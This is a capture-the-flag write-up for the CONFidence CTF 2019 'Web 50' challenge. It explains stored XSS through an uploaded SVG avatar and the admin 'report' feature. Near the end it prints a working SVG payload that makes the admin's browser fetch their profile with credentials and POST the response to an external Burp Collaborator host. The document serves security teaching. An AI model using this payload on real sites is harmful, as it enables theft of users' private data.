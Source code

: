 
Teaser CONFidence CTF 2019: Web 50
==================================

Challenge description:

	idk what this site does, but you can put some secret, shoe size and report it to the admin...

We are given a URL. When we visit it we find the following screen:

![](pics/1.png?raw=true)

From the source code, it seems to be user and password. Let's try some random values, like `fabada`/`fabada123` and submit the form. 

Apparently we're in:

![](pics/2.png?raw=true)

Let's check the _Profile_ section:

![](pics/3.png?raw=true)

Here we can define some values that will be sent to the server with a POST to `/profile/fabada`. We try clearing cookies and logging in again, and we find that the values are kept. Therefore, we effectively created an account at the platform, and our profile can be found at `/profile/<USERNAME>`. Interestingly enough, we can upload a file as the avatar, but they are controlling that the file is actually an image. We'll keep an eye out for that...

Let's now check the _Report_ section:

![](pics/4.png?raw=true)

We found that in this screen we can submit a URL belonging to this domain. Actually not every single one, but i.e. profiles are allowed. We try sending our own profile and we get the following response:

![](pics/5.png?raw=true)

Mmh do we now what that means? Starts sounding like a client-side attack... This probably means that we can  make the admin visit our own profile. Talking about `admin`, let's try and see if he has his own profile:

![](pics/6.png?raw=true)

Yes he does! But we don't get the option to edit any field as with our own profile (obviously). We try checking our own profile with a different account, and we confirm that that's how profiles for other users are displayed.

Let's now look for the client-side attack. Back to our own profile, we try several XSS payloads in the different fields. In the end, found an attack vector by uploading an SVG with embedded Javascript (size needs to be 100x100, as pointed out by the returned error if we try other sizes, so we directly grabbed one from Google Images):

```
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  ...
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 "></polygon>
    <script type="text/javascript">
      alert('XSS!');
    </script>
  </g>
  ...
</svg>

```

After uploading the image, the profile is shown and nothing happens:

![](pics/7.png?raw=true)

Visiting the image's URL, however...

![](pics/8.png?raw=true)

Nice! Hopefully we can submit this for the admin to check out? Yes we can. The full generated URL is something of the sort:

`http://web50.zajebistyc.tf/avatar/82b956e443066b3179e9493507c12344a87585d36d3aa92ae02710b1f1d1da5f/fabada_avatar.svg`

![](pics/5.png?raw=true)

How can we leverage this to compromise the admin? We tried two failed approaches:

1. Send ourselves some `document.cookies` from the admin? Nope, the session cookie is `HttpOnly`.
2. Within the XSS payload, trigger an authenticated POST request to `/profile/admin` modifying the `secret` parameter. We believed that was the password, and therefore we could take over the admin account. We then found out that was not the case... Maybe `secret` is the flag itself for the `admin` user!

We then realized that maybe we could trigger a GET request to `/profile/admin` from the admin's browser obtaining the profile's "full version" including the secret. We could then redirect the response to this request to our own server (in this case, we used Burp Collaborator).

The payload:

```
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  ...
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 "></polygon>
    <script type="text/javascript">
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          var xhr2 = new XMLHttpRequest();
          xhr2.open("POST", "http://XXXX.burpcollaborator.net/");
          xhr2.send(xhr.responseText);
        }
      }   
      xhr.open("GET", "http://web50.zajebistyc.tf/profile/admin");
      xhr.withCredentials = true;
      xhr.send();
    </script>
  </g>
  ...
</svg>

```

After reporting the URL for our brand new uploaded malicious SVG, a request was received by the Collaborator which included the flag!

![](pics/9.png?raw=true)


